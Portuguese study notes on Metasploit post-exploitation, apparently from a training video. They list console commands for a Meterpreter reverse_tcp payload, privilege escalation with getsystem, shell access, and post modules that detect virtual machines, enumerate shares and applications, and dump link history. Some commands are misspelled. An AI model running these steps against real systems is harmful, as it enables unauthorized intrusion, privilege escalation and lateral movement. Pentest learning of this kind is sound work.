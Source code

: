 ▶️show target
> aparece 2 arquiteturas, e podemos escolher como temos informações
▶️ set target 0
▶️ set payload windows/meterpreter/reverse_tcp
▶️ set lhost 192.0.0.0
▶️ set lport 2022 
▶️ set session 1
▶️ exploit

Aqui é para conseguir  ter escalado

Aqui vamos ter 2 sessões de conexão uma para o backdor, que nos deixou entrar, e outra que vai nos permitir elevar o privilegio

Cofrme com
▶️getuid
▶️getsystem
▶️get

acionas o Shell para atacar

▶️shell
▶️whoami
▶️whoami /priv
nos conta o que temos privilegio para fazer


## Modulos de Pos exploração

Atacando a maquina

⭕ https://www.youtube.com/watch?v=DmparmUfiOY

Dentro da nossa sessão do Meterpreter
▶️ session 1
    Entrando na sessão
▶️ ps
    Vai nos revelar os processos em um a


>>> Para verificar se é ma maquina virtual
▶️ use post/windows/gather/checkvm
▶️ set session 1
▶️ run

>>>> Aqui vamos identificar as pastas compartilhadas dentro do ssitema, podendo navegar horizontalmente na rede para dentro de outros pc
▶️use post/windows/gather/enum_shares
▶️ set session 1
▶️ exploit

>>> indo atraz de aplicações
▶️ usee post/windows/gather/enum_/_applications
▶️ set session 1
▶️ run

>>>> dumplinks, vamos vasculhar tudo que foi acessado atraz de coisas em aberto
▶️ use post/windows/gather/dumplinks
▶️set session 1
▶️ run
